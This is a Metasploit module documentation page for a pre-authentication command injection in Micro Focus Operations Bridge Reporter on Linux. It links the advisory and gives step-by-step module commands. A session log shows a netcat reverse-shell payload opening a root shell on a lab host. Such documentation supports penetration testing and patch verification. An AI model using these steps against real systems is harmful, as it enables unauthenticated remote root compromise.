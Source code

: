 ## Vulnerable Application

This module exploits a command injection vulnerability on *login* (yes, you read that right) that affects Micro Focus Operations
Bridge Reporter on Linux, versions 10.40 and below.
It's a straight up command injection, with little escaping required and it works before authentication.
This module has been tested on the Linux 10.40 version. Older versions might be affected, check the advisory for details.

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Home

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.
This vulnerability only affects Linux installations.

All details about this vulnerability can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obr_cmd_injection`
4. `set payload PAYLOAD`
5. `set rhost TARGET`
6. `set lhost YOUR_IP`
7. `run`
8. You should get a shell.

## Scenarios

```
msf > use exploit/linux/http/microfocus_obr_cmd_injection
msf exploit(linux/http/microfocus_obr_cmd_injection) > set payload payload/cmd/unix/reverse_netcat
payload => cmd/unix/reverse_netcat
msf exploit(linux/http/microfocus_obr_cmd_injection) > set rhost 10.0.0.10
rhost => 10.0.0.10
msf exploit(linux/http/microfocus_obr_cmd_injection) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf exploit(linux/http/microfocus_obr_cmd_injection) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.10:21412 - Payload sent, now wait for Shelly, if she doesn't arrive try again!
[*] Command shell session 1 opened (10.0.0.1:4444 -> 10.0.0.10:51806) at 2021-04-23 20:57:02 +0700

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
